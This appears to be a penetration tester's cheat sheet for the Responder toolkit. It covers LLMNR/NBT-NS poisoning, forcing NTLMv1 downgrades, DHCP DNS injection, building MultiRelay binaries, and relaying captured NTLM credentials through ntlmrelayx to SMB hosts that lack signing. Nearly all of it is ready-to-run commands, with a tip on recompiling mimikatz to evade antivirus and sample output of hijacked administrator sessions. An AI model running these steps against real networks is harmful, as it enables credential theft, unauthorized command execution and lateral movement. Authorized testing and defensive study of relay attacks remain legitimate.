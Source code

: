 #enumeration #relay-enumeration
# Source: 

https://github.com/lgandx/Responder

# Tools in Responder: 

Location: /usr/share/Responder/tools

# Make changes to config to turn off services:

`nano /usr/share/responder/Responder.conf`

# Configuring MultiRelay: 
In Kali Linux: 
1. pip install pycryptodome
2. Install Mingw and create multi relay binaries:
```
sudo apt-get install gcc-mingw-w64-x86-64
sudo x86_64-w64-mingw32-gcc ./MultiRelay/bin/Runas.c -o ./MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv
sudo x86_64-w64-mingw32-gcc ./MultiRelay/bin/Syssvc.c -o ./MultiRelay/bin/Syssvc.exe -municode
```
4. python3 MultiRelay.py
```
Usage: 
responder-MultiRelay -t 10.20.30.40 -u Administrator lgandx admin
responder-MultiRelay -t 10.20.30.40 -u ALL

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -t 10.20.30.45        Target server for SMB relay.
  -p 8081               Additional port to listen on, this will relay for
                        proxy, http and webdav incoming packets.
  -u, --UserToRelay     Users to relay. Use '-u ALL' to relay all users.
  -c whoami, --command=whoami
                        Single command to run (scripting)
  -d, --dump            Dump hashes (scripting)
```


# Starting Responder:

- responder -I [Interface] -A
- responder -I [Interface] -i [IP Address] or -e [External IP] -A

## Starting Responder in Basic Authentication Mode
- responder -I [Interface] -wdF -b

## Force NTLM Authentication to version 1 instead of version 2:
- responder -I [Interface] -wdF --lm --disable-ess

## External IP Poisoning
- responder -I [Interface] -e 172.21.1.2

## DNS Injection in DHCP Responses
- responder -i [interface] -D

# Using Responder-RunFinger to verify if SMB Signing is not enabled

- responder-RunFinger -i 172.21.0.0/24
- python3 RunFinger.py -i 172.21.0.0/24

# Using Responder-MultiRelay
Tips:
Multirelay uses the default version of mimikatz and it can easily flagged by AV. It is recommend to compile your own custom version and use it with mutlirelay.
Do not run multirelay against targets that have smb message_signing enabled:

- responder-Multirelay -t 172.21.0.0 - u ALL
- python3 Multirelay.py -t 172.21.0.0 -u ALL

# Using Responder with Impacket-Ntlmrelayx
NtlmRelayX is an impacket script that allows you to conduct NTLM Relay Attacks, by creating an SMB and HTTP server and relaying credentials to various different protocols (SMB, HTTP, LDAP, etc.).

1. When you are using responder to capture challenges and relay them to ntlmrelayx you will need to turn off HTTP and SMB in the responder.conf file. Also have a list of what systems are running smb and have smb signing disabled.

2. Set up a socks proxy on port 1080. This socks proxy will successfully relay the traffic to ntlmrelayx. 
- sudo nano /etc/proxychains4.conf
```
[ProxyList]
# NtlmRelayX Socks Proxy
socks4 127.0.0.1 1080
# Other Proxies
```
3. Run Responder and NtlmRelayX to watch the magic happen:
- sudo Responder -I [Interface]
- impacket-ntlmrelayx -socks -smb2support -tf smb-targets.txt
- ntlmrelayx.py -socks -smb2support -tf smb-targets.txt

To view a full list of captured sessions from NtlmRelayX
```
ntlmrelayx> socks
Protocol  Target          Username                  Port
--------  --------------  ------------------------  ----
SMB       172.21.48.38   SPAWN/MSIMMONS            445
SMB       172.21.48.230  FAERIE/ADMINISTRATOR      445
SMB       172.21.48.230  FAERIE/ALSIMMONS          445
```

# References: 

- https://github.com/lgandx/Responder


